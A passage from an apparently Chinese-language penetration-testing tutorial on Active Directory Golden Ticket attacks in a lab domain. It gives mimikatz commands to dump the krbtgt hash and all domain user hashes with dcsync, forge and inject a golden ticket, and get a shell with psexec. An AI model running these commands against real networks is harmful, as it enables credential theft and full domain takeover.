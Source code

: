 ### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```bash
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt

```

![](images/yushentou/15899764666841.png)


导出所有域内用户密码 hash 值:

```bash
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv

```

![](images/yushentou/15899764756436.png)


#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all

```

![](images/yushentou/15899764856248.png)


#### 3、伪造黄金票据

```bash
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt"

```

这里可以不指定 target 和 service

```bash
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt

```

![](images/yushentou/15899765021886.png)


使用 klist 查看本地缓存的票据

![](images/yushentou/15899765122199.png)


获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:

![](images/yushentou/15899765195470.png)


当然也可以使用 psexec 去获得一个 cmdshell:

![](images/yushentou/15899765276427.png)


> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。


